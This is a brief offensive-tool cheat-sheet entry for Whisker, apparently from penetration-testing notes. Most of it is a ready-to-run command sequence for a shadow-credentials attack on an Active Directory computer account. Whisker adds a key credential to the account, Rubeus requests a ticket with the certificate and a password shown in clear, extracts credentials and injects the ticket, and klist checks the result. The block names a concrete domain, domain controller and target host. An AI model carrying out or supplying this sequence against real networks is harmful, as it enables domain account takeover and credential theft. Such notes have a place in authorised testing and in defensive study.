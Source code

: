# Name
Whisker

## Usage
```
# To exploit AddKeyCredentialLink (or GenericWrite) on Computer object
Whisker.exe add /target:ZPH-SVRMGMT1$

Rubeus.exe asktgt /user:ZPH-SVRMGMT1$ /certificate:MIIJ… /password:"zCixoq4fEBQBRvvE" /domain:zsm.local /dc:ZPH-SVRDC01.zsm.local /getcredentials /show /ptt

klist
```

## Source
https://github.com/eladshamir/Whisker
